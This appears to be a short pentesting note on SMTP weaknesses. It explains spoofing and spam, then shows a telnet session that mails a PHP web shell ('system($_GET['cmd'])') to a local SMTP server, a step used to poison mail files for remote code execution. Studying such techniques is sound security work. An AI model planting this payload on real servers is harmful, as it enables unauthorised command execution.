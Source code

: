 SMTP (Simple Mail Transfer Protocol) is a foundational protocol for email transmission, playing a critical role in global communication infrastructure. However, its inherent lack of sender authentication makes it vulnerable to email spoofing, where attackers forge the sender's address to deceive recipients into opening malicious messages or divulging sensitive information. This exploitation can lead to phishing attacks, a prevalent cybersecurity threat aimed at tricking users into revealing credentials or clicking on harmful links. Additionally, SMTP's openness has historically enabled spam campaigns, leveraging weaknesses in server configurations or utilizing botnets to flood inboxes with unwanted messages.

--- 
## How to send information through a port

First we need to connect to the server to the port that is running the SMTP and the tools that we are using in here is [[telnet]]

```
# Connect to the service
telnet 127.0.0.1 25

#set the mail
MAIL FROM: test@test.com

#Set the recipient's mail
RCPT TO: username #it can be a user or a mail (dependes on the context)

#Set the information
DATA

#Information of the mail (you need to end with a dot at the end)
php system($\_GET['cmd']) ?
. 

#Quit the session
quit
```
